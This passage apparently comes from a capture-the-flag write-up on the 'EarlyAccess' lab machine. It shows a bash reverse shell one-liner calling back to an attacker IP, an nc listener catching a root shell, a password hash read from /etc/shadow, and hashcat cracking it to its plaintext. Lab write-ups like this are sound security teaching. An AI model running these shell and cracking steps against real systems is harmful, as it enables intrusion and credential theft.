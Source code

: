 #### Shell

I’ll create a new payload that returns a reverse shell:

```

drew@earlyaccess:/opt/docker-entrypoint.d$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > 0xdf.sh; chmod +x 0xdf.sh

```

I’ll run it manually as game-tester to make sure it works, and I get a connection and shell back at a listening `nc`.

I’ll hang the game again, and wait for the SSH connection to die. Just after it does, I get a connection and a shell as root:

```

oxdf@hacky$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.110] 53652
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@game-server:/usr/src/app# 

```

## Shell as game-adm on EarlyAccess

### Enumeration

There’s not much new in the container that I gain access to as root vs as game-tester. But one of those is the `/etc/shadow` file. There’s only one user with a password hash in that file:

```

root@game-server:/etc# cat shadow | grep -F '$' 
game-adm:$6$zbRQg.JO7dBWcZ$DWEKGCPIilhzWjJ/N0WRp.FNArirqqzEMeHTaA8DAJjPdu8h52v0UZncJD8Df.0ncf6X2mjKYnH19RfGRneWX/:18822:0:99999:7:::

```

I’ll remember from above that game-adm is a user on the host as well.

### Crack Hash

This hash format is sha512crypt, which is relatively slow to break. Still, `hashcat` breaks it in 30 seconds with `rockyou.txt`:

```

$ hashcat -m 1800 shadow /usr/share/wordlists/rockyou.txt 
...[snip]...
$6$zbRQg.JO7dBWcZ$DWEKGCPIilhzWjJ/N0WRp.FNArirqqzEMeHTaA8DAJjPdu8h52v0UZncJD8Df.0ncf6X2mjKYnH19RfGRneWX/:gamemaster

```
